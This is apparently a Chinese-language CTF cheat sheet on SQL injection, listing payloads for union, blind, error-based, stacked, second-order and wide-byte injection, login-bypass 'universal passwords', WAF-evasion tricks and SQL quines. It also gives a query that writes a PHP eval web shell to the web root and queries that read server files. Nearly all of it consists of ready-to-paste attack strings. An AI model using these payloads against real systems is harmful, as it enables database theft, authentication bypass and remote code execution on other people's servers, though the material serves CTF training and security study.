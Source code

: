 ## 常见

| 考点                            |                                                                            |
| ------------------------------- | -------------------------------------------------------------------------- |
| 0.测试                          | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询                      | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注)        | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入)        |                                                                            |
| [5.堆叠注入](#5堆叠注入)        | 使用 prepare 绕过                                                          |
| 二次注入                        |
| [过滤了单引号](#过滤了单引号)   |
| [bypass](bypass_.md#sql-bypass) |

注入格式

| Column                                        | 测试 1                                                                                                                  | 测试 2 |
| --------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- | ------ |
| ?id=1''                                       | ?id='1'                                                                                                                 |        |
| $id                                           | 1''                                                                                                                     | '1'    |
| $id 结果                                      | 正常                                                                                                                    | 正常   |
| '$id'                                         | '1'''                                                                                                                   | ''1''  |
| '$id'结果                                     | 正常                                                                                                                    | 错误   |
| `select * from user where username = '$name'` | 密码是 md5 方式, `-1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#`                                       |
| \`uid\` in('1'); <br> \`uid\` in($id);        | 后面会补括号 <br> `1) or updatexml(1,concat(0x7e,version(),0x7e),1`<br>`1 or updatexml(1,concat(0x7e,version(),0x7e),1` |

### post/mysql

- 写入文件 `select "<?php @eval($_POST['cmd']);?>" into outfile "C://phpstudy/www/info.php"`
- 读文件 `select load_file('C:/users/desktop.ini');`

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
-1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```

### 二次注入

`[RCTF2015]EasySQL`
注册以下用户

```sh
admin"
admin'
admin')
admin")
```

admin" 在修改密码时报错，说明"闭合 二次注入，猜测 sql

```sql
update 表 set password='xxx' where username="xx" and pwd='xx'
```

## 其他

## Quine
[偏门SQL](https://www.b1xcy.top/tips/5QL%E6%B3%A8%E5%85%A5%E4%B8%80%E6%8A%8A%E6%A2%AD.html)

输入等于输出
```
$row['password'] === $password
```

```sql
-- 示例1
select replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")');
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+

-- 示例2
1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#
组合 sql 语句就是：
SELECT password FROM users WHERE username='admin' and password='1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#';
```
## Load data


```sql
LOAD DATA INFILE '/etc/hosts' INTO TABLE test FIELDS TERMINATED BY '\n';
-- 客户端 (windows) 连接到服务端 (kali) 时, 这样就实现了远程数据的传输，当然前提是客户端的权限足够
LOAD DATA local INFILE "D:\\test.txt" INTO TABLE test FIELDS TERMINATED BY '\n';
```
## 常见的 SQL 注入考点 CTF-123458

```bash
3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

6.二次注入:通过在一处输入点构造sql语句，在第二处触发
        -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
7.宽字节注入:通过数据库编码错误来绕过字符转义
        sql = 'select *from user where id=\''.$id.'\'';
        GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
        GET方式 id=1%df' union select 1,database(),3%23
        POST方式-没有url解码 username=1汉') or 1=1#
                -配合盲注完成
9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
10.sql注入提权:通过sql注 入获取服务器权限
- 读取数据 见0x10
- 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
        ()替换空格or(1)=(1) , or('1')='1'
load_file
head 注入 useragent进行报错注入
MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
        http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
        https://www.shysecurity.com/post/20140705-SQLi-Quine
        'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#
```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 过滤了单引号

```sql
select * from users where  username= '$_POST["username"]' and password = '$_POST["username"]';
```

- username = <span class="red">1\\</span>
- password = <span class="red"> or 1#</span>

```sql
select * from users where  username= '1\' and password =' or 1#
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```

<style>
 .red{color:red;}
</style>

# Article
[SQL特殊位置注入：order注入和limit注入](https://mp.weixin.qq.com/s/Hj8DIHS7NDInomv9PrTsvw)